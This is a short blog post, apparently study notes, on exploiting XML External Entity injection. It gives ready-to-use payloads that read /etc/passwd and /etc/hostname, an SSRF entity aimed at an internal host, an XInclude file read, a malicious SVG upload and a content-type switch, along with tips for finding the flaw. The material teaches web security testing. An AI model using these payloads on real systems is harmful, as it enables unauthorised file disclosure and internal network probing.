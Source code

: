 ```yaml
---
layout: blog
type: blog
title: Web Application Security - XML External Entity Injection
permalink: blog/web-xxe
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - svg
---
```


# Exploiting XXE to Retrieve Files

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 

to 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

# Exploiting XXE to Perform SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

# Blind XXE
#coming

# Finding Hidden Attack Surfaces

## XInclude attacks

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service. 

To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example: 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

## XXE via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG. 

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> 
```

## XXE via modified content type

 Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

```txt
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```txt
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format. 

# How to find and test for XXE vulnerabilities

- Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. Burp Collaborator client is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.
